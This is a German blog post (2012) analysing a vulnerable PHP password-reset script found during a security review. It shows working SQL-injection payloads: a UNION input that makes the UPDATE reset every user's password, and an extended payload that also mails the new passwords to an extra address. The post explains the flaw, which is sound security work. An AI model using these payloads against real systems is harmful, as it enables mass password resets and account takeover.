 Injectception
#############
:date: 2012-04-26 10:26
:tags: de, sql injection, yasi

Ich bin bei einer Sicherheitsueberpruefung ueber folgenden Code
gestolpert:

.. code-block :: php

    <?php

    if ($_POST["sender"] == "PassForm") {
       if ($_POST["mail"] == "") {
          buildForm(&$smarty, 2);
          return;
       }
       $id = existMail($_POST["mail"]);
       if (!$id) {
          buildForm(&$smarty, 1);
          return;
       }
       $pass = createNewPassword();
       if (!$pass) {
          $smarty->assign("error", "Kennwortgenerierung fehlgeschlagen!");
          $smarty->display("pass_failed.html");
          return;
       }
       if (!saveNewPassword($pass, $id)) {
          $smarty->assign("error", "Datenbankzugriff fehlgeschlagen!");
          $smarty->display("pass_failed.html");
          return;
       }   
       if (!sendMessage($_POST["mail"], $pass)) {
          $smarty->assign("error", "E-Mail-Versand fehlgeschlagen!");
          $smarty->display("pass_failed.html");
          return;
       }

    }

    function existMail($mail)
    {
       global $dsn;
       $db = DB::connect($dsn);
       $query = "SELECT id FROM User WHERE accountName LIKE '".$mail."' OR eMail LIKE '".$mail."';";
       $id = $db->getOne($query);
       if (PEAR::isError($id)) { // Fehler
          return false;
       }
       return $id;
    }


    function saveNewPassword($password, $id)
    {
       global $dsn;

       $db = DB::connect($dsn);
       $query ="UPDATE User SET accountPW = ENCRYPT('".$pass."') WHERE id = '".$id."';";
       $result = $db->query($query);
       if (PEAR::isError($result)) {
          return false;
       }
       return true;
    }

    function sendMessage($mail, $pass)
    {
       // Betriebs-E-Mail-Adresse
       $to = $mail;

       $subject  = "Ihr neues Kennwort";

       $header  = "From: xxx \r\n";
       $header .= "Content-type: text/plain; charset=UTF-8; format=flowed\r\n";

       $message  = "Hallo lieber Leser,\n\n";
       $message .= "auf Ihre Anfrage wurde für Sie ein neues Kennwort generiert.\n\n";
       $message .= "Hier sind ihre Benutzerdaten:\n";
       $message .= "Benutzername: ".$mail."\n";
       $message .= "Kennwort....: ".$pass."\n\n";
       $message .= "Für Rückfragen stehe ich Ihnen gerne zur Verfügung.\n\n";


       if (mail($to, $subject, $message, $header)) {
          return true;
       }
       else {
          return false;
       }
    }
    ?>


Es sollte relativ ersichtlich sein, dass schon im ersten Teil eine SQL
Injection moeglich ist. Man kann aber noch einen Schritt weitergehen.
Die PEAR-Klasse liefert bei getOne() nur eine Zeile zurueck. Bei einem
Element geht sie sogar soweit, dass direkt in die Variable als Wert
abzuspeichern. Dieser Wert wird auch nicht weiter ueberprueft, sondern
direkt an den UPDATE Befehle gefuettert. Die Ueberlegung ist also in der
Variable $id einen SQL Befehl abzulegen, der dann UPDATE beeinflusst.
Dies ist garnicht so schwer, wie es am Anfang ausschaut:

 .. code-block :: sql

    sender=PassForm&mail=-1' UNION select ("' or '1'='1") -- 

Wir gehen davon aus, dass kein Accountname "-1" existiert. Demnach
liefert der erste Select nichts zurueck. Das 2. Select liefert meine
noetige Injection als String zurueck, welches in $id abgespeichert wird.
"--" leitet einen Kommentar ein. Der Query, der dann auf die Datenbank
losgelassen wird, sieht dann so aus:

 .. code-block :: sql

    SELECT id FROM Users WHERE accountName LIKE '1' UNION select (" ' or '1'='1") -- ' OR eMail LIKE '1' UNION select (" ' or '1'='1") -- '

Damit haben wir $id="' or '1'='1" und unser Update wird auf diesen Query
erweitert:

 .. code-block :: sql

    UPDATE Users SET accountPW = 'pass' WHERE id = '' or '1'='1';

Damit wird fuer jeden Benutzer in der Datenbank das Passwort neu
gesetzt. Natuerlich kann auch fuer einzelne Benutzer gesetzt werden.
Leider hab ich keinen Einfluss auf das Passwort, was es mir unmoeglich
macht ein eigenes Passwort zu setzen. Aber ich weiss, dass eine Email
rausgeschickt wird. Da wir auch wissen, dass man bei mail() mehrere
Adresse durch ein Komma getrennt uebergeben koennen, erweitern wir
unseren Befehl noch ein wenig:

::

    mail=-1'%20UNION%20select%20("'%20or%20'1'='1")%20--%20,test@test.org&sender=PassForm

Damit wird die Email an 2 "Email"-Adressen geschickt, wovon nur eine
wirklich gueltig ist. so long
